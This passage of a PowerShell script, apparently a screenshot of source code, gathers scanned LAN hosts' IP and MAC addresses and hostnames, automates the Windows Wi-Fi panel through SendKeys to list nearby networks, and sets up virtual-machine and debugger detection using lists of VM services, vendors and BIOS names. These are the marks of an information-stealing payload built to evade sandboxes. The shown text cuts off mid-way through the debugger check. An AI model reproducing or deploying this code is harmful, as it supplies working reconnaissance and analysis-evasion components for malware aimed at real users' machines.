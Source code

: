         $scanresult += "IP Address: $($_.IPv4) `n"
        $scanresult += "MAC Address: $($_.MAC) `n"
        if ($_.Hostname) {
            $scanresult += "Hostname: $($_.Hostname) `n"
        }
        $scanresult += "`n"
    }
}

# Nearby WiFi Networks
$showNetworks = explorer.exe ms-availablenetworks:
sleep 4
$wshell = New-Object -ComObject wscript.shell
$wshell.AppActivate('explorer.exe')
$tab = 0
while ($tab -lt 6){
$wshell.SendKeys('{TAB}')
$tab++
}
$wshell.SendKeys('{ENTER}')
$wshell.SendKeys('{TAB}')
$wshell.SendKeys('{ESC}')
$NearbyWifi = (netsh wlan show networks mode=Bssid | ?{$_ -like "SSID*" -or $_ -like "*Signal*" -or $_ -like "*Band*"}).trim() | Format-Table SSID, Signal, Band
$Wifi = ($NearbyWifi|Out-String)


#Virtual Machine Detection Setup
$isVM = $false
$isDebug = $false
$screen = [System.Windows.Forms.Screen]::PrimaryScreen
$Width = $screen.Bounds.Width
$Height = $screen.Bounds.Height
$networkAdapters = Get-WmiObject Win32_NetworkAdapterConfiguration | Where-Object { $_.MACAddress -ne $null }
$services = Get-Service
$vmServices = @('vmtools', 'vmmouse', 'vmhgfs', 'vmci', 'VBoxService', 'VBoxSF')
$manufacturer = (Get-WmiObject Win32_ComputerSystem).Manufacturer
$vmManufacturers = @('Microsoft Corporation', 'VMware, Inc.', 'Xen', 'innotek GmbH', 'QEMU')
$model = (Get-WmiObject Win32_ComputerSystem).Model
$vmModels = @('Virtual Machine', 'VirtualBox', 'KVM', 'Bochs')
$bios = (Get-WmiObject Win32_BIOS).Manufacturer
$vmBios = @('Phoenix Technologies LTD', 'innotek GmbH', 'Xen', 'SeaBIOS')
$runningTaskManagers = @()

# Debugger Check
Add-Type @"
        using System;
        using System.Runtime.InteropServices;
